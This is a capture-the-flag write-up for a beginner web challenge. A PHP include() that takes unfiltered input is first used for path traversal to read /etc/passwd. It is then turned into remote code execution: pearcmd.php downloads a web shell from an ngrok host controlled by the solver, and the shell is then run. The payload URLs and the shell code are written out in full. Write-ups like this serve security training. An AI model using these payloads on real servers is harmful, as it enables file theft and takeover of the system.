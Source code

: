<font size='10'>php one</font>

24<sup>th</sup> April 2025

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Easy</font>

<br><br>

## Solution

The source code is as follows. We got one `index.php` file.
```php
<?php 

$page = $_GET["page"];

if (isset($page)) {
    include("page/" . $page);
} else {
    echo "Nothing to show you!";
}

?>
```

It's fairly simple, and we can see the vulnerability.

Our input from `$_GET["page"]` is directly beign parsed in the `include()` after appending `page/`.

To get file read on the server, we can do something like following.

```
view-source:http://192.168.100.24/?page=../../../../etc/passwd
```

![alt text](image-1.png)

But looking at the `Dockerfile`, we see that flag is in `/` and its name is randomized so we can't directly read it from this LFI.

To get around this, we can use [LFI to RCE using PEAR CMD](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md#lfi-to-rce-via-php-pearcmd). Because PEAR is installed on every docker php image as quoted in the previously mentioned link.

We can make a file `shell.php` as follows.
```php
<?php
echo system("cat /flag*");
?>
```

In order to host the file I used `ngrok`.
![alt text](image-2.png)

And then use the following payload to upload our shell.

```
view-source:http://192.168.100.24/?page=../../../../usr/local/lib/php/pearcmd.php&+install+https://672f-175-107-225-255.ngrok-free.app/shell.php
```

And the following payload to execute it.
```
view-source:http://192.168.100.24/?page=../../../../tmp/pear/download/shell.php
```

![alt text](image-3.png)

### Challenge Flag

flag{1m_ju$t_g3tting_s7art3d}